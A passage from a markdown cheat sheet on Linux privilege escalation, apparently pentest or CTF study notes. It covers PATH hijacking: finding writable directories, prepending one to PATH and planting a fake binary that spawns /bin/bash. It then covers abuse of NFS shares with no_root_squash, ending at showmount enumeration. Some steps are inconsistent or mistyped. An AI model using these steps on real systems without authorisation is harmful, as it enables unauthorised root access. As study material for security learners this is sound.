 <a id="6-path"></a>
# 6. **PATH**

  * Environment variable listing directories. Basically when we type a command without specifying its directory, the system will look through the list of PATH directories; we can then add a directory at the beginning of the list and execute a command/program.

    ```bash
    echo $PATH
    ```

  * We need to find directories/folders where we have write permission:

    ```bash
    find / -writable 2>/dev/null
    ```

    ```bash
    `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
    ```

  * Then we insert the directory we want at the beginning of PATH:

    ```bash
    export PATH=/var/www/html/data:$PATH
    ```
    
  * And we create the file:

    * `cd /tmp`
    * `echo “/bin/bash” > bruh`
    * `chmod 777 bruh`
  
  * Now just run it in another directory and without specifying it.

---
<a id="7-nfs"></a>
# 7. **NFS**

  * **NFS (Network File Sharing)** → protocol that allows mounting remote file systems so they can be accessed as if local. Basically when there is a directory on the target machine that allows sharing with other computers, then we create a share with our machine and in that share we create a file that executes with root permissions and also set the +s bit, thus on the target machine we can execute that file and escalate to root.

    ```bash
    cat /etc/exports
    ```

  * Look for any entry with the option `no_root_squash`, and also for `rw` (read,write) which means we can create an executable inside.

  * Now, on our machine we will see the shares available on the NFS server:

    * `showmount -e <IP_of_NFS_Server>` (target IP as usual)
